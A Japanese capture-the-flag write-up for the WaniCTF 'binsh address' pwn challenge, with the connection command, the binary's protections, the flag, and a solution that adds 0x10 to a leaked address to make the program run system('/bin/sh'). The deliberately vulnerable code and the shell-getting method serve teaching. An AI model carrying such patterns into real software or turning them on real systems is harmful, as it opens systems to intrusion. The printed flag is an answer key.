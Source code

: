 # binsh address [pwn]
## 問題文

```
nc binsh.wanictf.org 9003
```
+ 文字列はメモリのどこかに配置されています。
+ `strings -tx ./chall | less`

### 使用ツール例
+ [netcat (nc)](https://github.com/wani-hackase/memo-setup-pwn-utils#netcat)
+ [strings](https://github.com/wani-hackase/memo-setup-pwn-utils#strings)

### セキュリティ保護


+ Full RELocation ReadOnly (RELRO)
+ Stack Smash Protection (SSP)有効
+ No eXecute bit(NX)有効
+ Position Independent Executable (PIE)有効

## FLAG
```
FLAG{cAn-f1nd-str1ng-us1ng-str1ngs}
```
## 解法

まずはコードを読みます。
ポイントはグローバル変数の
```
char str_head[] = "Please input \"";
char binsh[] = "/bin/sh";
```
の部分と、vuln関数の中の

```
    p = (char *) val;
    if(p == binsh){
        puts("Congratulation!");
        system(p);
        exit(0);
    }else{
        puts("You are wrong.\n\n");
    }
```
の部分です。
自分が入力したアドレスとbinshのアドレスが一致していればOKです。

また、接続時にstr_headのアドレスが出力されています。
stringsコマンドで調べると
```
   2010 Please input "
   2020 /bin/sh
```
のように連続して配置されていて、/bin/shのアドレスはstr_headのアドレスの0x10バイト後ろにあるだけです。
というわけで出力された`Please input "`のアドレスに0x10を足して入力すると解けます。
PIEとASLRが有効なので実行する度にアドレスが変わりますが、例えば
```
$ ./pwn03
The address of "input  " is 0x7f6d72402010.
Please input "/bin/sh" address as a hex number:
```
と出力された場合は0x7f6d72402010 + 0x10 = 0x7f6d72402020なので`0x7f6d72402020`を入力すればシェルを取れます。

